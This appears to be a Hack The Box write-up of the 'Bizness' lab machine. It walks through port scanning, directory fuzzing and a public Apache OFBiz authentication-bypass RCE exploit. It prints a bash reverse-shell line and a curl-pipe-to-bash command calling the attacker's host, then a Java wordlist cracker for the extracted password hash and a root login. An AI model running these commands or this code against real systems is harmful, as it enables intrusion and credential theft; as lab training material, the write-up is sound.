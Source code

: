 ```yaml
---
title: HTB Bizness Writeup
author: Elus1nist
layout: post
date: 14 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/1919b64800f6676d0c0d285a9d664cee.png
---
```

Welcome! This is my writeup of the new Season 4 Easy machine from HTB, Bizness. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -oN initial_scan 10.10.11.252
```
This gives us the scan results of:

```sh
Nmap scan report for 10.10.11.252
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp open  ssl/http nginx 1.18.0
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
```

Alright, so now we have the following services that we can exploit:
- Port 22: SSH - This service will probably become accessible once we have some creds
- Port 80: HTTP - We can see a domain name dumped `bizness.htb` (add to `/etc/hosts` file)
- Port 443: HTTPS - This is the main web page to be working with

---
---
## Enumerating HTTP

Once we add to our hosts file we can visit the HTTP webpage and see the following:

<img src='../writeup_images/Bizness/Bizness_Webpage.png'>

### Directory Fuzzing

Fuzzig for directories with feroxbuster:
```sh
feroxbuster --url http://bizness.htb --filter-status 404
```
From the fuzzing we discover a directory - `/accounting`

Visiting this page:
<img src='../writeup_images/Bizness/Bizness_Webpage_accounting.png'>

---
---
## Public Exploit - (CVE-2023-51467 and CVE-2023-49070)

After a quick search of the vulnerabilities for OFBiz we stumble across this github page - [OFBiz Authentication Bypass RCE](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)

After download ing the exploit I write a simple reverse shell bash script `bash_shell.sh`:
```
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.16.73/9101 0>&1
```
Then on my attacker machine I start a python http server on port 9001 and a nc listener on port 9101.

Running the exploit as follows results in a reverse shell:
```sh
python3 exploit.py --url http://bizness.htb --cmd 'curl http://10.10.16.73:9001/bash_shell.sh | /bin/bash'
```

This gives us the user flag in the `/home/ofbiz` directory

---
---
## Hash Reversing

Once we have the shell we can find and exfiltrate the `c54d0.dat: Derby Database` file.

Extracting important information from file:
```sh
grep c54d0.dat -e 'Password'

./c54d0.dat:21:Password="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled
```

We need to now see how the application Hashes its passwords and hopefully we can reverse engineer a password cracker:

Using the commens-codec library and rockyou.txt wordlist we can write the following cracker in Java:
```java
import org.apache.commons.codec.binary.Base64;
import java.io.BufferedReader;
import java.nio.charset.StandardCharsets;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.io.IOException;
import java.io.FileReader;
import java.io.*;

public class Main {
    public static void main(String[] args) {

        System.out.println("Starting Attack");
        System.out.flush();
        String filePath = "/usr/share/wordlist/rockyou.txt";

        try (BufferedReader reader = new BufferedReader(new FileReader(filePath))) {
            String line;

            while ((line = reader.readLine()) != null) {
                System.out.println("[*] Trying word: "+ line);
                byte[] bytes = line.getBytes(StandardCharsets.UTF_8);
                String hash = cryptBytes("SHA", "d", bytes);
                System.out.println(hash);
                if (hash.equals("$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I")){
                    System.out.println("[+] Password: " + line);
                    break;
                }
            }
        } catch (IOException ignored) {}
    }

    public static String cryptBytes(String hashType, String salt, byte[] bytes) {
        StringBuilder sb = new StringBuilder();
        sb.append("$").append(hashType).append("$").append(salt).append("$");
        sb.append(getCryptedBytes(hashType, salt, bytes));
        return sb.toString();
    }

    private static String getCryptedBytes(String hashType, String salt, byte[] bytes) {
        try {
            MessageDigest messagedigest = MessageDigest.getInstance("SHA");
            messagedigest.update("d".getBytes(StandardCharsets.UTF_8));
            messagedigest.update(bytes);
            return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
        } catch (NoSuchAlgorithmException e) {
            throw new RuntimeException("Error while comparing password", e);
        }
    }
}
```
This gives us the cracked password:
`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I : monkeybizness`

---
---
## Privelege Escalation

Once we have a password we can try logging in as `root`:

```
su
monkeybizness
```

BOOM! PWNED.ZIP ACHIEVED!

<img src="https://giffiles.alphacoders.com/206/206739.gif">